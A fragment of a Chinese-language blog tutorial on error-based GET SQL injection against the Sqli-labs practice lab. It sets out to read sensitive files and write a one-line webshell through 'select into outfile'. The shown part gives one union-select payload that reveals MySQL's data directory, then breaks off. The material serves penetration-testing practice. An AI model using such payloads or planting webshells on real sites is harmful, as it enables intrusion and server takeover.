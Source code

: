# 原创
：  get基于报错的sql注入利用-读敏感文件和写入一句话木马

# get基于报错的sql注入利用-读敏感文件和写入一句话木马

环境准备：[构建完善的安全渗透测试环境：推荐工具、资源和下载链接_渗透测试靶机下载-CSDN博客](https://blog.csdn.net/weixin_43263566/article/details/129031187) 

基础：[GET基于报错的sql注入利用-脱库-CSDN博客](https://blog.csdn.net/weixin_43263566/article/details/135795755) 

#### 1、select into outfile或`dumpfile` 写入一句话马

这里用Sqli-labs靶场的第一关做演示，之前演示过改关卡的闭合符是单引号，靶场地址：[http://127.0.0.1/sqlilabs/less-1/?id=1](http://127.0.0.1/sqlilabs/less-1/?id=1)

判断MysQL的存储路径方便我们写入一句话马

```
# MySQL的@@datadir变量的值（表示数据目录的路径）
-1 union select 1,@@datadir,3 -- -
```

&lt;
